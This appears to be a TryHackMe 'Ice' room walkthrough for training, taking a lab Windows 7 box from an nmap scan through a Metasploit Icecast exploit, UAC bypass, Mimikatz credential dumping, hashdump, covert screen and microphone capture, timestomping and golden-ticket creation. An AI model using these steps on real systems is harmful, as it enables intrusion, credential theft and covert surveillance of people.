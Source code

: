 https://tryhackme.com/room/ice

## **Recon Stage**
> - Perform SYN scan on all ports.
```
nmap -sS -p- -vv -o nmap_scan.txt 10.10.51.67
```
> - The above scan took way too long.
> - Performing an OS, version, script scan, and trace route *-A* with timing set with *-T4* on all ports.
```
nmap -A -T4 -p- -vv -o nmap_scan.txt 10.10.51.67
```
![](recon_1.png)
![](recon_2.png)
![](recon_3.png)

#### Interesting findings
>	- *MSRDP* running on port `3389`
> - *SMB* running on port `139, 445`
> - *Icecast* running on port `8000`
> - *CommonName* of *DARK-PC*
> -	Windows 7 Professional 7601



## **Access Stage**
>	- Research on Icecast shows that, that version is highly vulnerable to *Execute Code Overflow* `CVE-2004-1561`.
>	- Search in *Metasploit* for Icecast.
>	- `msfconsole`![](access_1.png)
>	- Use the found module add the required options, and make sure that the *LHOST* option has the *VPN IP*.
>	- Run the exploit `run` or `exploit`.
>	- Meterpreter session opened. ![](access_2.png)


## **Privilege Escalation Stage**
>	- Found user running the last Icecast process with `getuid`.
>	- Found build of windows with `sysinfo` although it was already found during recon stage.
>	- `run post/multi/recon/local_exploit_suggester` as recommended.
>	- Too many exploits to list.![](privesc_1.png)
```
use exploit/windows/local/bypassuac_eventvwr
```
>	- Make sure that LHOST is set to the VPN IP and set `SESSION`.![](privesc_2.png)
>	- `run` the exploit.![](privesc_3.png)
>	- Verify expanded permissions using `getprivs`
>	- To change ownership of files use `SeTakeOwnershipPrivilege`


## **Looting Stage**
>	- List the processes using `ps`![](looting_1.png)
>	- To interact with the *lsass* service; the service responsible for authentication within Windows, we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and has the same permissions. The chosen service is printer spool `spoolsv.exe`.
>	- Migrate to the process using `migrate -N spoolsv.exe`.
>	- Check user with `getuid`.![](looting_2.png)
>	- Load *Mimikatz* tool; a tool famous for password dumping, with `load kiwi` (Kiwi is the updated version of Mimikatz).
>	- Use `help` command to check for newly added Kiwi commands.
>	- Command `creds_all` retrieves all credentials.
>	- Run `creds_all`.![](looting_3.png)![](looting_4.png)
>	- *Mimikatz* allows us to steal this password out of memory even without the user *Dark* logged in as there is a scheduled task that runs the *Icecast* as the user *Dark*.
>	-  It also helps that *Windows Defender* & *Firewall* isn't running on the box.


## **Post-Exploitation Stage**
>	- Dump all the hashes stored on the system using `hashdump`.
>	- Watch the remote user's desktop in real time using `screenshare`.
>	- Record from a microphone attached to the system using `record_mic`.
>	- Modify timestamps of files on the system using `timestomp`.
>	- Mimikatz allows us to create a `golden ticket`, which allows us to authenticate anywhere with ease, use `golden_ticket_create`.
>	- `run post/windows/manage/enable_rdp` to remote into machines and view them as their users do.![](post_exploit_1.png)
